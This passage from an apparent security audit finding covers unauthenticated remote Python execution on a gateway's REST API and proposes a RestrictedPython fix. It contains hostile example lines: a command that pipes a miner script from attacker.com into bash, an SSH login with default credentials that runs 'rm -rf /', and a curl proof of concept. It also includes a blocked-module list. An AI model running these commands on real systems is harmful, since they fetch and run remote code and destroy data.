 ```python

# 4. Crypto mining
import subprocess
subprocess.Popen(['curl', 'http://attacker.com/miner.sh', '|', 'bash'])

# 5. Lateral movement
import paramiko
ssh = paramiko.SSHClient()
ssh.connect('internal-server', username='admin', password='password')
ssh.exec_command('rm -rf /')
```

**Impact:**
- Complete Gateway server compromise
- Arbitrary file read/write/delete
- Network access for data exfiltration
- Persistent backdoor installation
- Lateral movement to internal network
- Denial of service
- Resource hijacking (crypto mining)

**Proof of Concept:**

```bash
# Remote code execution via REST API (no auth required!)
curl -X POST http://gateway:8088/data/python3integration/api/v1/exec \
  -H "Content-Type: application/json" \
  -d '{
    "code": "import os; os.system(\"whoami > /tmp/pwned.txt\")"
  }'
```

**Recommended Fix (Priority 1):**

**Step 1: Implement RestrictedPython**

```bash
# Install RestrictedPython in Gateway Python environment
pip install RestrictedPython
```

```python
# python_bridge.py - SECURE VERSION
from RestrictedPython import compile_restricted, safe_globals, limited_builtins, safe_iter
from RestrictedPython.Eval import default_guarded_getitem, default_guarded_getiter
from RestrictedPython.Guards import guarded_iter_unpack_sequence

class SecurePythonExecutor:
    def __init__(self):
        # Define safe modules whitelist
        self.safe_modules = {
            'math': __import__('math'),
            'json': __import__('json'),
            'datetime': __import__('datetime'),
            'itertools': __import__('itertools'),
            'collections': __import__('collections'),
            'decimal': __import__('decimal'),
            'random': __import__('random'),
            're': __import__('re'),
            # Pandas/NumPy if data science needed (with caution)
            # 'pandas': __import__('pandas'),
            # 'numpy': __import__('numpy'),
        }

        # BLOCKED modules (never allow)
        self.blocked_modules = {
            'os', 'subprocess', 'sys', 'socket', 'urllib', 'requests',
```